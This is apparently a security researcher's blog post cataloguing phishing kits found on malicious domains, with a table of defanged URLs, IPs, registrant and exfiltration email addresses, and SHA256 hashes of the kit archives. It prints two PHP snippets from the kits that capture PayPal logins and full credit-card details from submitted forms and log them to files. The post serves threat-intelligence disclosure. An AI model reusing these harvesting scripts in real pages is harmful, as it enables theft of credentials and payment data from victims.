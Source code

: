 # Crap I Found On The Internet (2020/10/13)

Hey folks, here's another mini-update, this time with some more kits i found when combing through more domains. First, i'll have a table with the hosting information and whatnot, then below that will be a block of text with the sha256 hashes of the zip files in question.

I acquired these kits earlier in the day, so by the time i was off work and had time to go get the IP addresses and whois data and all that, some had stopped resolving (okay, one or two), but i managed to get what i could on those using dig and riskIQ. 

| URL                                                                                      | IP                    | Whois/SOA                            | Exfil                                                         |
| ---------------------------------------------------------------------------------------- | --------------------- | ------------------------------------ | ------------------------------------------------------------- |
| boatbookings[.]xyz/ExRobotos-OfficeV4-2020%20(1)[.]zip                                   | 111[.]90[.]150[.]71   | hostmaster@registrar-servers[.]com   | Unconfigured                                                  |
| central-14345456478834345343[.]gq/CC_LOGIN%20(1)[.]zip                                   | 101[.]50[.]1[.]53     | soa@freenom[.]com                    | Writes to text file\*                                         |
| central-14345456478834345344[.]gq/CC_LOGIN%20(1)[.]zip                                   | 101[.]50[.]1[.]53     | soa@freenom[.]com                    | Writes to text file\*                                         |
| chat[.]whastapp[.]frontalgaming[.]frontal-gaming1[.]my[.]id/Wa18Fans_FrontalGaming[.]zip | 207[.]180[.]252[.]85  | fauziponcol21@gmail[.]com            | jokergila301@gmail[.]com                                      |
| diamondgratis[.]eventfreefirenew1[.]ml/SC-DIAMOND-LEVEL-1[.]zip                          | 95[.]111[.]241[.]149  | N/A                                  | emailkalian@gmail[.]com                                       |
| evant-freefire[.]neww[.]my[.]id/DIAMOND%20FF%20GG%5BDIT%20SANTUY%5D-1[.]zip              | 192[.]210[.]219[.]168 | admin@nemesis-hostlive[.]my[.]id     | pakeemaillo@gmail[.]com                                       |
| facebookhelpcheckpoint[.]my[.]id/cgi-bin[.]zip                                           | 95[.]111[.]241[.]149  | N/A                                  | ggmild933@gmail[.]com                                         |
| join-grup[.]wa[.]buggg-eventss[.]cf/fake-login-facebook[.]zip                            | 62[.]77[.]159[.]72    | root@2zfq[.]c[.]serverhost[.]name    | Unconfigured                                                  |
| lju98[.]winaccesssecuredexxr[.]xyz/ANSUSA27julsouupdated[.]zip                           | 142[.]4[.]3[.]120     | dns@hostinger[.]com                  | none, phone number 08004049735                                |
| navadalandlop[.]xyz/godaddy%20firebase%20setup[.]zip                                     | 93[.]157[.]63[.]185   | root@root[.]com                      | logpaul895@yandex[.]com<br/>02londonsex@gmail[.]com           |
| navadalandlop[.]xyz/owa/goowa[.]zip                                                      | 93[.]157[.]63[.]185   | root@root[.]com                      | logpaul895@yandex[.]com<br/>02londonsex@gmail[.]com           |
| realrespond[.]ga/cf/Ourtime%20(2)[.]zip                                                  | 13[.]68[.]158[.]118   | soa@freenom[.]com                    | maryronda7@gmail[.]com                                        |
| realrespond[.]ga/dc/Ourtime%20(2)[.]zip                                                  | 13[.]68[.]158[.]118   | soa@freenom[.]com                    | maryronda7@gmail[.]com                                        |
| reeldealyachts[.]xyz/ExRobotos-Redirect-v4-2020%20(1)[.]zip                              | 111[.]90[.]150[.]71   | N/A                                  | N/A (just a redirection script)                               |
| sdffgewr[.]cf/amaz[.]zip                                                                 | 185[.]221[.]216[.]4   | markusm122@yahoo[.]com               | collinshofmann@outlook[.]com<br/>castilloalphonso@gmail[.]com |
| sdffgewr[.]ml/amaz[.]zip                                                                 | 185[.]221[.]216[.]4   | markusm122@yahoo[.]com               | collinshofmann@outlook[.]com<br/>castilloalphonso@gmail[.]com |
| servicefax1[.]tk/365/redirect[.]zip                                                      | 103[.]153[.]182[.]126 | root@103-153-182-126[.]cprapid[.]com | N/A (just a redirection script)                               |
| terta-71[.]cf/wells/Wells[.]zip                                                          | 162[.]241[.]117[.]240 | soa@freenom[.]com                    | jim6601@outlook[.]com<br/>speaker6692@gmail[.]com             |

#### * writes to either `____________PAYPAL_________.txt` or `___________________________C^C________________________.txt` (see below)

```
# log4.php
$file = "____________PAYPAL_________.txt";
$paypalmail = $_POST['paypalmail'];
$pwpaypal = $_POST['pwpaypal'];
$ip = $_SERVER['REMOTE_ADDR'];


$handle = fopen($file, 'a');
fwrite($handle, "xxxxPAYPALxxxx");
fwrite($handle, "\n");
fwrite($handle, "::  EMAIL     ::   ");
fwrite($handle, "$paypalmail");
fwrite($handle, "\n");
fwrite($handle, "::  PASS      ::   ");
fwrite($handle, "$pwpaypal");
fwrite($handle, "\n");
fwrite($handle, "::  IP        ::   ");
fwrite($handle, "$ip");
fwrite($handle, "\n");
fwrite($handle, "xxxxPAYPALxxxx");
fwrite($handle, "\n");
fclose($handle);
```

```
# log2.php & log3.php:
$file = "___________________________C^C________________________.txt";
$firstName = $_POST['firstName'];
$creditCardNumber = $_POST['creditCardNumber'];
$month = $_POST['month'];
$year = $_POST['year'];
$csc = $_POST['csc'];
$street = $_POST['street'];
$city = $_POST['city'];
$state = $_POST['state'];
$zip = $_POST['zip'];
$country = $_POST['country'];
$ip = $_SERVER['REMOTE_ADDR'];
$today = date("F j, Y, g:i a");


$handle = fopen($file, 'a');
fwrite($handle, "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx");
fwrite($handle, "\n");
fwrite($handle, "::  NAMA      ::   ");
fwrite($handle, "$firstName");
fwrite($handle, "\n");
fwrite($handle, "::  CREDIT    ::   ");
fwrite($handle, "$creditCardNumber");
fwrite($handle, "\n");
fwrite($handle, "::  BULAN     ::   ");
fwrite($handle, "$month");
fwrite($handle, "\n");
fwrite($handle, "::  TAHUN     ::   ");
fwrite($handle, "$year");
fwrite($handle, "\n");
fwrite($handle, "::  CSC       ::   ");
fwrite($handle, "$csc");
fwrite($handle, "\n");
fwrite($handle, "::  POS       ::   ");
fwrite($handle, "$zip");
fwrite($handle, "\n");
fwrite($handle, "::  NEGARA    ::   ");
fwrite($handle, "$country");
fwrite($handle, "\n");
fwrite($handle, "::  IP        ::   ");
fwrite($handle, "$ip");
fwrite($handle, "\n");
fclose($handle);
```

`a0ad6eb4ca1855c4aab9d2a8f368c74328aef1b9abfc76b3c805627eefb05969  boatbookings.xyz/ExRobotos-OfficeV4-2020%20(1).zip`
`f511f0bc01552ec63e9db71c728cac556e8f889bb19f90f2bb5064602ad4f37f  central-14345456478834345343.gq/CC_LOGIN%20(1).zip`
`f511f0bc01552ec63e9db71c728cac556e8f889bb19f90f2bb5064602ad4f37f  central-14345456478834345344.gq/CC_LOGIN%20(1).zip`
`1fe1ff7a30b26d9c95aa033a362a38166c083e464033b2643c1d803a2b8b13b7  chat.whastapp.frontalgaming.frontal-gaming1.my.id/Wa18Fans_FrontalGaming.zip`
`c61712d18ebc87f882614b39fc122cfc89415452543ab60a45f807884a96c94e  diamondgratis.eventfreefirenew1.ml/SC-DIAMOND-LEVEL-1.zip`
`6989cb64fbda4102d829ef38b2142fd3da8389b4feae0105f2363641d16cf30d  evant-freefire.neww.my.id/DIAMOND%20FF%20GG%5BDIT%20SANTUY%5D-1.zip`
`d6391a710c49b841dcbdbf7e3d03f4998ff3b507bcbb591e6a5a2e83c15506a2  facebookhelpcheckpoint.my.id/cgi-bin.zip`
`2054d0cd4e84422071a79f4519ac04cb09edd969eb8565238fc7802e87a29872  join-grup.wa.buggg-eventss.cf/fake-login-facebook.zip`
`7d6d810f3e07987be39e3737a73bb021ad8f460e085d063cb8f296b0361dedbf  lju98.winaccesssecuredexxr.xyz/ANSUSA27julsouupdated.zip`
`54251d81b5f212b3fb15f10f86260a6d6febb857c8f8a03a3895bfa0650ba5dd  navadalandlop.xyz/godaddy%20firebase%20setup.zip`
`ea0196b3b22f8962fad23f0948ce856fc56e555fcb51b5c42a8d96fca4796954  navadalandlop.xyz/owa/goowa.zip`
`b334855a53c08da7585fe4d556f291222b2c51f3764b406e8b6a6f719420d5c8  realrespond.ga/cf/Ourtime%20(2).zip`
`b334855a53c08da7585fe4d556f291222b2c51f3764b406e8b6a6f719420d5c8  realrespond.ga/dc/Ourtime%20(2).zip`
`415e3154b1220d8d5574e8204fb2e00a40bdca00181ffa1e225a91628fdb20b4  reeldealyachts.xyz/ExRobotos-Redirect-v4-2020%20(1).zip`
`b36a436adff6d98ebfe70a5cfe68e65010d6e8fe7b861496b207a95a8d5cedbf  sdffgewr.cf/amaz.zip`
`b36a436adff6d98ebfe70a5cfe68e65010d6e8fe7b861496b207a95a8d5cedbf  sdffgewr.ml/amaz.zip`
`c71b60c3c955e3a00482bc309a7ac2359a4af7dd343bcadad4fb9919fc21216c  servicefax1.tk/365/redirect.zip`
`7c1a32e78d79e644b5be584820247cd786bcf4f7c526c33e81e7d4f093a64a91  terta-71.cf/wells/Wells.zip`

Going to work on getting the samples uploaded to [malshare](https://malshare.com) for researchers to take a look if they want (since not everyone can afford virustotal enterprise)



[Return to index](/)
